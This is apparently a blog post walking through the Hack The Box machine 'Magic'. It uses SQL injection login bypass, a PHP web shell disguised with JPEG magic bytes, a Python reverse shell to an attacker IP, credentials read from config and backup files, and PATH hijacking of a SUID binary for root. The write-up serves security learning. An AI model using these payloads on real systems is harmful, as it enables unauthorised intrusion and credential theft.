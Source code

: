 ```yaml
---
layout: post
title:  "Hack The Box - Magic"
date:   2020-08-23 00:38:00 +0800
categories: hackthebox
tags: linux sqli php magic path
---
```


![](/assets/images/magic.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

{% highlight bash %}
$ echo "10.10.10.185 magic.htb" >> /etc/hosts
{% endhighlight %}

# Reconnaissance

Using `nmap`, we are able to determine the open ports and running services on the machine.
{% highlight bash %}
$ nmap -sV -sT -sC magic.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-28 11:51 EDT
Nmap scan report for magic.htb (10.10.10.185)
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.77 seconds

{% endhighlight %}

# Enumeration (1)

We got no credentials for the `ssh` service on port `22` so let check out the `http` service on port `80`.

![](/assets/images/magic1.png)

On the bottom left, there's a link to a login page.

`http://magic.htb/login.php`:

![](/assets/images/magic2.png)

I threw in some basic `SQL` injection by putting `' or 1=1;--` in both the username and password and I got in? Nice.

`http://magic.htb/upload.php`:

![](/assets/images/magic3.png)

I submitted nothing and I got this error:

![](/assets/images/magic4.png)

So, the application wants me to support an image. However, based on experience, file upload pages are usually a place where bugs commonly occur so lets see how can we bypass the protections in place.

First, lets first create our web shell. If we manage to upload this, we basically can run any commands on the box!

{% highlight bash %}
$ cat shell.php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
{% endhighlight %}

Lets think about what kind of checks might be in place. Maybe they are checking the file extension?

{% highlight bash %}
$ mv shell.php shell.php.jpeg
{% endhighlight %}

![](/assets/images/magic5.png)

They probably are but its still not good enough... Well since this box is called "Magic", perhaps they are checking the magic bytes of the file uploaded? The magic bytes of a file is used to identify what type of file it is so that the system can properly interpret it and process accordingly. We can use the `file` command to see what our file is interpreted as.

{% highlight bash %}
$ file shell.php.jpeg
shell.php.jpeg: PHP script, ASCII text
{% endhighlight %}

Well, our file is definitely not recognized as a `JPEG` file. According to this [link](https://www.filesignatures.net/index.php?page=search&search=JFIF&mode=EXT), the magic bytes of a `JPEG` file is `FF D8 FF E0`. Hence, we can just append these bytes to the front of our file.

{% highlight bash %}
$ echo -e "$(python -c "print '\xFF\xD8\xFF\xE0'")$(cat shell.php.jpeg)" > shell.php.jpeg
$ file shell.php.jpeg
shell.php.jpeg: JPEG image data
{% endhighlight %}

Now lets try uploading it.

![](/assets/images/magic6.png)

Now lets figure out where does our file end up at. If you go back to the home page and right-click on the images and click on "View Image", you will see that uploaded images are saved to `http://magic.htb/images/uploads/`. So, lets see if our web shell is there! Note that the uploaded files get cleared every now and then so you might need to reupload your web shell again to see it.

`http://magic.htb/images/uploads/shell.php.jpeg`:

![](/assets/images/magic7.png)

These weird characters that you see are actually the magic bytes you added to our web shell! If we add the `?cmd=whoami` to the end of our URL,

`http://magic.htb/images/uploads/shell.php.jpeg?cmd=whoami`:

![](/assets/images/magic8.png)

We see that we can now arbitrary commands! The next step is probably to establish a more stable reverse shell since our web shell will get deleted every now and then. Since Python 3 was installed on the box (You can run `which python3` to see if it is installed), we can execute a python reverse shell.

Starting our listener...

{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

And by visiting `http://magic.htb/images/uploads/shell.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`,

We now have a reverse shell.

{% highlight bash %}
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.185] 48482
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/Magic/images/uploads$
{% endhighlight %}

As `www-data`, we can check out what files are there in the root directory of the web service. In `/var/www/Magic`, there were 2 files of interest.

{% highlight bash %}
www-data@ubuntu:/var/www/Magic/images/uploads$ cat /var/www/Magic/db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...
{% endhighlight %}

{% highlight bash %}
www-data@ubuntu:/var/www/Magic/images/uploads$ cat /var/www/Magic/backup.sql
...
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
...
{% endhighlight %}
`
We got 2 usernames, `theseus` and `admin`, and 2 passwords, `iamkingtheseus` and `Th3s3usW4sK1ng`. Let see what users we have in `/home`.

{% highlight bash %}
$ ls /home
theseus
{% endhighlight %}

# user.txt

I guess we now know what to do. Using the 2 passwords we found, we manage to `su` to `theseus`.

{% highlight bash %}
www-data@ubuntu:/var/www/Magic/images/uploads$ su theseus
Th3s3usW4sK1ng
theseus@ubuntu:/var/www/Magic/images/uploads$ cat /home/theseus/user.txt
a9aaXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (2)

Lets run [`LinEnum.sh`](https://github.com/rebootuser/LinEnum) to see we can find anything to help use escalate our privileges.

{% highlight bash %}
theseus@ubuntu:/var/www/Magic/images/uploads$ wget http://10.10.XX.XX/LinEnum.sh
--2020-08-22 04:59:07--  http://10.10.XX.XX/LinEnum.sh
Connecting to 10.10.XX.XX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46476 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                100%[========================================================>]  45.39K  85.5KB/s    in 0.5s    

2020-08-22 04:59:08 (85.5 KB/s) - ‘LinEnum.sh’ saved [46476/46476]

theseus@ubuntu:/tmp$ chmod +x LinEnum.sh
...
[-] SUID files:
...
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
...
{% endhighlight %}

`sysinfo` is not a binary commonly found in Linux distributions so lets look into it. When executing it, it prints information related to your memory, your disk and your CPU information. But if we look deeper into it,

{% highlight bash %}
theseus@ubuntu:/tmp$ ltrace /bin/sysinfo 2>&1 | grep popen
ltrace /bin/sysinfo 2>&1 | grep popen
popen("lshw -short", "r")                        = 0x5579b300ee80
popen("fdisk -l", "r")                           = 0x5579b300ee80
popen("cat /proc/cpuinfo", "r")                  = 0x5579b300ee80
popen("free -h", "r")                            = 0x5579b300ee80
{% endhighlight %}

It is actually running other commands to retrieve the above said information! Since the path of the binaries executed is not full, we can manipulate our `$PATH` variable so that our own code will be executed instead of the legitimate binary! We got 4 choices but I will choose `free`.

Preparing our payload:

{% highlight bash %}
theseus@ubuntu:/tmp$ echo "/bin/bash" >> /tmp/free
theseus@ubuntu:/tmp$ chmod +x free
{% endhighlight %}

Manipulating our `$PATH` variable so that the OS will check `/tmp` for `free`:

{% highlight bash %}
theseus@ubuntu:/tmp$ PATH=/tmp:$PATH
theseus@ubuntu:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
{% endhighlight %}

And now finally, if we run `/bin/sysinfo`:

{% highlight bash %}
theseus@ubuntu:/tmp$ /bin/sysinfo
====================Hardware Info====================
root@ubuntu:/tmp#
{% endhighlight %}

# root.txt

We are now root! However, the output of commands will not be printed until I exit the current shell.

{% highlight bash %}
root@ubuntu:/tmp# cat /root/root.txt
cat /root/root.txt
root@ubuntu:/tmp# exit
exit
exit
4328XXXXXXXXXXXXXXXXXXXXXXXXXXXX
theseus@ubuntu:/tmp$
{% endhighlight %}

## Rooted ! Thank you for reading and look forward for more writeups and articles !
